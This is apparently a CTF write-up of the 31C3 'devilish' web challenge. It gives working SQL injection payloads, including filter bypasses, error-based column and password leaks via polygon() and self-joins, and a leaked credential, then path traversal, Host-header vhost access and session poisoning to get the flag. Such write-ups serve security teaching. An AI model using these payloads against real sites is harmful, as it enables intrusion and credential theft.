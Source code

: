 ```yaml
---
layout: post
title: "31C3 CTF 'devilish' writeup"
categories: writeups 31c3-ctf
tags: exploitation
author: eboda
---
```


*devilish* was a web challenge worth 30 points at the 31C3 CTF.

![devilish page]({{ site.url }}/imgs/31c3-ctf_devilish_1.png)

## SQL injection
The website itself offered a login form as well as a member list and profile pages. The profile pages used a rewritten URL:

    http://188.40.18.70/PROFILE/55/Dracula

We found a SQL injection vulnerability by adding a backslash `\` either after the *55* or *Dracula*:

    http://188.40.18.70/PROFILE/55\/Dracula

This produces an error message in a Halloween-type font, so only checking the HTML source reveals it:

{% highlight HTML %}
<!--SELECT * FROM users WHERE id_user='55\' AND Us3rN4m3='Dracula'-->
<span class='styleX'>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'Dracula'' at line 1</span>
{% endhighlight %}

We are dealing with a MySQL dbms and the error is obviously due to the `'` getting escaped by the backslash. We also learned a table name: `users`.

However, the  actual  injection was rather tricky as a lot of SQL keywords were filtered, such as `UNION`, `GROUP`, `OR` (therefore blocking also infORmation_schema), `FILE`, `'`, `/*`, spaces and some more.
Note that in MySQL you can bypass a filter on spaces rather easily with either making use of paranthesis or by using ASCII chars, which MySQL interprets as spaces, such as %09 (tab), %0a (new line), %0b, %0c. %a0.

Without being able to access `information_schema` we could not retrieve the column names of table `users` in the traditional way.
First we checked the number of columns in users:

    http://188.40.18.70/PROFILE/55\/||(select*from(users))=1--%09-

The error output of this gave us the number of columns:

    Operand should contain 8 column(s)

Then we continued by using an error based injection with the polygon() method. Queries passed to polygon() are expanded and reflected in the error message:

    http://188.40.18.70/PROFILE/55\/||polygon((select(1)from(select*from(users))x))--%09-

The output of this was the following:

    Illegal non geometric '(select 1 from (select `devilish`.`users`.`id_user` AS `id_user`,`devilish`.`users`.`Us3rN4m3` AS `Us3rN4m3`,`devilish`.`users`.`Em4iL4dR3Szz` AS `Em4iL4dR3Szz`,`devilish`.`users`.`S4cR3dT3xT0' value found during parsing

As you can see, we now had learned some column names already. However, the output was cut off since the length of error messages was limited. We could get more output by retrieving only a row of NULLs:

    http://188.40.18.70/PROFILE/55\/||polygon((select(1)from(select*from(users)where(id_user=0))x))--%09-

Now the output for each column was shorter and we learned additional column names: 

    Illegal non geometric '(select 1 from (select NULL AS `id_user`,NULL AS `Us3rN4m3`,NULL AS `Em4iL4dR3Szz`,NULL AS `S4cR3dT3xT0Fm3`,NULL AS `MyPh0N3NumB3RHAHA`,NULL AS `Addr3Zz0F_tHi5_D3wD`,NULL AS `CHAR_LOL`,NULL AS' value found during parsing

Unfortunately, the last column name - the one for the password column :) - didn't fit into the error message, it was cut off at **NULL AS**.

Another way to leak column names is to join a table with itself:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`))f)--%09-

Note, that you need to give the second users table an alias, otherwise MySQL will complain about duplicate tables.
This gave us the first column: 

    Duplicate column name 'id_user'

To get the remaining column names, we have to trick MySQL into ignoring the columns we are not interested in. This can be done with the `USING` keyword. MySQL assumes that columns passed in a list after `USING` are present in both tables of the join and joins the table on them:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`)using(id_user))f)--%09-

And we get the second column:

    Duplicate column name 'Us3rN4m3'

We could retrieve all columns - including the last one - with this method:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`)using(id_user,Us3rN4m3,Em4iL4dR3Szz,
    S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL)))f)--%09-

Which gave us the password column: 

    Duplicate column name 'P4sWW0rD_0F_M3_WTF'

Then with simple error based injection we retrieved a login:

    http://188.40.18.70/PROFILE/55\/||polygon((select(1)from(select(Us3rN4m3),(P4sWW0rD_0F_M3_WTF)from(users)where(id_user=55))x))--%09-
    

The output is the username and password of the user with id=55:

    Illegal non geometric '(select 1 from (select 'Dracula' AS `Us3rN4m3`,'ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz' AS `P4sWW0rD_0F_M3_WTF` from `devilish`.`users` where ('55' = 55)) `x`)' value found during parsing

    user: Dracula
    pass: ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz

## Directory Listings
When logging in, we were greeted with a page allowing us to browse some directories of the logged in user. However, with simple path traversal it was easy to manage to browse any directory on the server:

![devilish flag]({{ site.url }}/imgs/31c3-ctf_devilish_2.png)

We were able to access some of the source pages of the website in the following folder:

    http://188.40.18.70/ACCESS?action=browse&dir=../../__WebSiteFuckingPrivateContentNotForPublic666

We could read the LOGIN script, by simply navigating to the file with the browser:

{% highlight php %}
<?php
    if(@$_SESSION['user']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
            $_SESSION=$_POST;
            header("location: ".$LINK);die();
        }else{
            $Error=1;
        }
    }
?>
{% endhighlight %}

Notice that the `$_SESSION` variable will be set to the `$_POST` variable here. We will need to use this fact later on.

Other directories of interest were /home/user and /home/devilish.local. The former  contained a `flag.txt`, but there was no way to read it, while the latter contained website files similar to the ones we already knew. Further investigation into the server revealed that in /etc/apache2/sites-enabled next to the default site, the devilish.local virtual host was enabled as well, serving a website out of the /home/devilish.local directory.

## Private portal

With simply changing the Host  header of the http request to `devilish.local`, we could then access the website presenting us with a login prompt to a private portal. Again we could fetch the source code of the login page:

{% highlight php %}
<?php
    if(@$_SESSION['is_ExclusiveMember']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(@$_POST['user']===$uLOGIN && @$_POST['pass']===$uPASSWORD){
            $_SESSION['is_ExclusiveMember']=1;
            header("location: ".$LINK);
            die();
        }else{
            $Error=1;
        }
    }
?>
{% endhighlight %}

Notice, that the session variable `is_ExclusiveMember` is used to mark a user as logged in. PHP sessions are not aware of virtual hosts by default and are shared between them. This means, we actually have control over the `$_SESSION` variable, as in the first LOGIN script, it is set to `$_POST`.

The things left to do are to login in the first LOGIN script and supply an additional POST parameter `is_ExclusiveMember=1`. Using the new session cookie, we then make a request to the private LOGIN script and get the flag displayed.

`Here's your secret 31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5`

